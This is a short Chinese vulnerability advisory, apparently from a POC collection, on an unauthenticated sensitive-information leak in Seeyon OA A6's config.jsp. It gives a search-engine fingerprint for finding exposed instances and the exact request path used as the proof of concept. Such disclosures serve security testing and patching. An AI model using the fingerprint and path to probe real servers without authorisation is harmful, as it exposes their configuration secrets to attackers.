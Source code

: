# 

# 致远OA A6 config.jsp 敏感信息泄漏漏洞

## 漏洞描述

致远OA A6 config.jsp页面可未授权访问，导致敏感信息泄漏漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
body="yyoa" && app="致远互联-OA"
```

## 漏洞复现

登录页面

![image-20220520152551136](./images/202205201525328.png)

验证POC

```
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![image-20220520152601778](./images/202205201526835.png)
